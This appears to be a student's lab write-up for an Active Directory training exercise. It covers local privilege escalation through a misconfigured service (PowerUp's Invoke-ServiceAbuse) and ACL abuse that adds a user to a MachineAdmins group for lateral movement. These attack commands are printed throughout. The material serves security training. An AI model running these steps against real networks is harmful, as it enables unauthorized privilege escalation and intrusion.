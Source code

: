 
Task 
• Exploit a service on studentx and elevate privileges to local administrator. 
• Identify a machine in the domain where studentuserx has local administrative access due to group membership.


Let's use PowerUp from InvisiShell. Remember to run it from a new process and do not use the same one where PowerView is loaded:

```
. C:\AD\Tools\PowerUp.ps1
```

```
Invoke-AllChecks
```

![[Pasted image 20250313212145.png]]

Let’s use the abuse function for the service permission issue and add our current domain user to the local Administrators group.

```
Invoke-ServiceAbuse -Name ALG -UserName us\studentuserx - Verbose
```

![[Pasted image 20250313213101.png]]

After that logoff and Login

Now, we need to identify a machine in the domain where studentuser139 has local administrative access. Usually hunting for local administrator privileges is the way to go. Using PowerView:

```
Find-LocalAdminAccess -Verbose
```

we got no output

Let's enumerate group memberships for studentuserx. The ActiveDirectory module command GetADPrinicpalGroupMemebsrhip does not provide ability to recursively look for group membership. Therefore, we can use the following simple PowerShell code from InvisiShell. Note that the code uses the ActiveDirectory module so that should be imported first:

```powershell
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) { $groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname) $groups if ($groups.count -gt 0) { foreach ($group in $groups) { Get-ADPrincipalGroupMembershipRecursive $group } } }
```

```
Get-ADPrincipalGroupMembershipRecursive 'studentuser139'
```

![[Pasted image 20250313214025.png]]

Let's check if any of the above groups has interesting ACL entries. After trying for multiple groups, we will find out that us\managers group does have some interesting permissions. Using PowerView from InvisiShell:

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'managers'}
```

if we have a look at the machineadmins group, its description explains a lot. Using ActiveDirectory module:

![[Pasted image 20250313222137.png]]

Let's add studentuser139 to machineadmins group as we have GenericAll permissions on the group. Using AD module:

```
Add-ADGroupMember -Identity MachineAdmins -Members studentuser139 -Verbose
```

![[Pasted image 20250313222522.png]]

Now, check if we have administrative access to the us-mgmt machine in the Mgmt OU it is the only machine in that OU). Note that we need to clear our existing TGT so that the new group membership is assigned in the new TGT. So, a logoff and logon may be required. We can use winrs for accessing us-mgmt:

![[Pasted image 20250314001822.png]]


